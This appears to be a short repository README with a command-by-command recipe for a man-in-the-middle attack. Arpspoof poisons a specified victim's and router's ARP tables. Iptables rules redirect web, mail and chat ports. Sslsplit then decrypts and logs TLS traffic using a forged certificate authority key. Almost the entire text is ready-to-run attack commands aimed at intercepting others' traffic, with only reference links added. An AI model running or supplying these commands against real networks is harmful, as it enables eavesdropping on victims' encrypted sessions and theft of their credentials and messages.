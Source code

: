 ARP Spoof
=========
1. Tell the victim, I am the router  
`sudo arpspoof -t 35.12.214.227 35.12.214.1`  
2. Tell the router, I am the client.  
`sudo arpspoof -t 35.12.214.1 35.12.214.227`  

SSL Split Attack
================
1. Configure the iptables (make sure the victim can receive the packets)  
```
sudo sysctl -w net.ipv4.ip_forward=1  
sudo iptables -t nat -F  
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080  
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080  
```
2. Start the ssl split (You should pre-create directory in /tmp folder)  
`sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S /tmp/sslsplit/logdir/ -k cakey.pem -c cacert.pem ssl 0.0.0.0 8443 tcp 0.0.0.0 8080`  

# Ref: https://www.roe.ch/SSLsplit
# Ref: https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/
